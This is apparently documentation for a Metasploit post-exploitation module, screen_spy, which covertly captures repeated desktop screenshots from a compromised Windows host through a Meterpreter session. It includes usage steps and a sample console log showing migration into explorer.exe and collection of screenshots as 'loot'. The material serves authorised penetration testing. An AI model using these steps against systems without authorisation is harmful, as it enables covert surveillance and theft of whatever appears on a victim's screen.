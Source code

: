 ## Vulnerable Application

This module will incrementally take desktop screenshots from the
host. This allows for screen spying which can be useful to determine
if there is an active user on a machine, or to record the screen for
later data extraction. Note: As of March, 2014, the VIEW_CMD option
has been removed in favor of the Boolean VIEW_SCREENSHOTS option,
which will control if (but not how) the collected screenshots will
be viewed from the Metasploit interface.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/screen_spy```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **SESSION**

  The session to run the module on.

## Scenarios

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49184) at 201 9-12-12 14:55:42 -0700


  msf > use post/windows/gather/screen_spy
  msf post(windows/gather/screen_spy) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/screen_spy) > run

    [*] Migrating to explorer.exe pid: 1908
    [+] Migration successful
    [*] Capturing 6 screenshots with a delay of 5 seconds
    [*] Screen Spying Complete
    [*] run loot -t screenspy.screenshot to see file locations of your newly acquired loot
    [*] Post module execution completed
  ```
